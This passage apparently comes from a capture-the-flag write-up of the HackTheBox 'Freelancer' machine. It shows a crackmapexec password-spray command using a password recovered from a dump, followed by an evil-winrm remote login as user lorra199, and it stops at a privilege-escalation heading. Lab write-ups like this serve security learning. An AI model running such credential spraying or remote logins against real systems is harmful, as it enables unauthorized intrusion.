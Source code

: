 The password obtained from the dump is: `PWN3D#l0rr@Armessa199`

We need to find the username for which this password works, so again password spray attacks using crackmapexec:

{% code overflow="wrap" %}
```bash
crackmapexec smb -u local_users.txt -p "PWN3D#l0rr@Armessa199" -d freelancer.htb freelancer.htb
```
{% endcode %}

We find that these credentials are for user lorra199:

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

If we try to WinRM, we are in as lorra199:

```bash
evil-winrm -i freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199'
```

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation (Administrator)
